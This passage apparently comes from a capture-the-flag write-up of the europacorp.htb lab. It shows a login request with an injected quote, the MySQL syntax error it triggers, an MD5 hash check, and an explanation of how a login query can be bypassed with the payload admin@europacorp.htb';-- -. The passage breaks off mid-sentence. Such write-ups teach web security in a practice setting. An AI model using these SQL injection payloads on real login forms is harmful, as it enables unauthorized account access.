     email=admin%40europacorp.htb'&password=admin&remember=Remember+Me



The response shows a clear SQL injection opportunity:



    HTTP/1.1 200 OK
    Date: Fri, 22 Jan 2021 01:35:59 GMT
    Server: Apache/2.4.18 (Ubuntu)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Vary: Accept-Encoding
    Content-Length: 179
    Connection: close
    Content-Type: text.md; charset=UTF-8

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '21232f297a57a5a743894a0e4a801fc3'' at line 1



Not only is that SQLi, but it tells me that the hash being used is MD5,
which I can recognize by the hash length, and verify knowing that the
password I submitted was "admin":



    root@kali# echo -n "admin" | md5sum
    21232f297a57a5a743894a0e4a801fc3  -



## Shell as www-data

### Access Admin Panel

#### Via SQL Bypass

There are different ways that a PHP site will execute a query to
determine if a user can login. The worst is to run an SQL query for rows
where the username and the password (or password hash) match, and if
there are *any* results, allow login. Slightly better is to allow login
only if there's exactly one result. A better way to do it is to query
based on the username, and then check that the returned result has a
matching hash (this can still be bypassed, but it takes more work).

I'll check to see if the counting method is used here. If that's the
case, the query will look something like:



    SELECT * FROM users WHERE email='$email' and password='$password_hash';



If I can guess an email that I want to log in as, injection could be as
simple as `admin@europacorp.htb';-- -`, resulting in:
